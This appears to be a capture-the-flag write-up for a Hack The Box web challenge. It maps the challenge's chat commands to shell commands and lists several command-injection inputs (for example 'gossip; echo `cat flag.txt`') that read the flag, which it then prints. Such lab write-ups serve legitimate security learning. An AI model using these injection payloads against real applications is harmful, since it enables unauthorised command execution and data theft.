






# Whispers of the Moonbeam (Web)

​​

WTF? lol ok

From this, we can deduce:

* gossip -> `/bin/sh -c 'ls'`​

​​

Seems like we can deduce:

* help -> builtins

​​

​​

We can also deduce

* examine -> `whoami`​
* observe -> `ps -aux`​

​​

hence, after playing around for quite a bit, these are the different methods I found that allowed me to read the flag via command injection

```
# Replace cat with less/more/tail -n x/head -n x/strings
# just in case /usr/bin/cat has been deleted to make the box harder
# $() can be used instead of `` (backticks) as well

gossip; echo $(strings flag.txt)
gossip; echo `cat flag.txt`
gossip; eval "cat flag.txt"
gossip; exec cat flag.txt
gossip; exec < flag.txt; cat
```

​​

HTB{Sh4d0w_3x3cut10n_1n_Th3_M00nb34m_T4v3rn_6b57066686e9d579b6f0c107178d4595}
